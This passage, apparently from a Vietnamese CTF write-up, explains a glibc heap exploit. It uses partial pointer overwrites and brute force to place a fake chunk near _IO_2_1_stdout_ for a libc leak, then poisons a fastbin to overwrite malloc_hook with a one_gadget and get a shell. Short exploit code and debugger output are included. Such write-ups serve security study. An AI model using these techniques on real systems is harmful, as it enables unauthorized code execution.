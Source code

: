 Tìm kiếm một lúc thì có 1 địa chỉ phù hợp đó là 0x7fxxxxx25dd, vì bit 5dd(địa chỉ của fake chunk) giữ nguyên còn bit có giá trị "2" random thì ta có thể brute-force đến khi nào gặp được bit đó. 
Sau khi ta đã applied địa chỉ fd của 2 chunk(một cái nằm ở fastbin và cái còn lại ở unsorted_bin) có size 0x70 gần với địa chỉ của `_IO_2_1_stdout` bằng cách ghi đè địa chỉ của `main_arena+88` thành 0x7fxxxx25dd thì ta sẽ fill biến flags của `_IO_stdout` thành 0xfbad1800 và 2 số cuối của `_IO_write_base` thành \x00 sẽ khiến cho nó nhỏ hơn do đó ta sẽ leak được nhiều thứ hơn.
```py
rename(1,b'\xdd\x25')

alloc(5,0x60,b'a')
alloc(6,0x60,b'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + b'\x00')
```
Sau khi đã ghi đè thì struct của `_IO_2_1_stdout` sẽ như này 
```c
pwndbg> p _IO_2_1_stdout_
$2 = {
  file = {
    _flags = -72542208,  //0xfbad1800
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x7ffff7dd2600 <_IO_2_1_stderr_+192> 'A' <repeats 32 times>, //ghi đè 2 số cuối thành \x00
    .
    .
    .
  }, 
  vtable = 0x7ffff7dd06e0 <_IO_file_jumps>
}
```
Sau khi modified stdout thì khi chương trình gọi puts(ở lần tiếp theo) thì chương trình sẽ in ra địa chỉ của `_IO_2_1_stderr` vì nó nằm ở sau `_IO_list_all`
(tỉ lệ 1/16 khi brute-force ta sẽ leak được địa chỉ của libc :lol:)
![](Untitled.png)


Sau khi đã có libc base address thì ta có được địa chỉ gốc của malloc_hook, sau đó dùng theo phương pháp trên, ta malloc một chunk với size 0x60 để đẩy chunk đó vào fastbin, tiếp theo modify fd của chunk đó vào fake chunk mà ta muốn, ở đây đó là malloc_hook - 0x23. Malloc chunk đó lại để có được fake chunk ta muốn, sau đó malloc một chunk với size 0x60, fill bởi one_gadget. Cuối cùng malloc một chunk mới để trigger malloc_hook là có được shell.



